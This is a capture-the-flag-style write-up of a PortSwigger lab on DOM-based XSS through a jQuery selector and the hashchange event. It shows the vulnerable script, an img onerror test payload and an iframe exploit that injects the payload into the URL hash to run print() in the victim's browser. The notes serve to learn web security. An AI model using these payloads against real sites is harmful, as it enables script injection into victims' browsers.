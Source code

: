 # DOM XSS in jQuery selector sink using a hashchange event

## This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

## To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

---

### step 1

open lab
view page source

look for jquery code

```javascript
<script>

$(window).on('hashchange', function(){

var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');

if (post) post.get(0).scrollIntoView();

});

</script>
```

![screenshot](./images/lab6_hash_value.png)

![screenshot](./images/lab6_hash_with_post_name.png)

test with
`#<img src=1 onerror=alert(1)>`

![screenshot](./images/lab6_hash_with_image_pageload.png)

### step2

to solve this lab
you need to use iframe

```javascript
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">
```

change src url with lab url and change alert(1) with print()

```javascript
<iframe src="https://0a1000e504e13d8fc22843dd00560027.web-security-academy.net/#" onload="this.src+='<img src=1 onerror=print()>'">
```

put inside exploit page and submit

![screenshot](./images/lab6_exploit_payload.png)
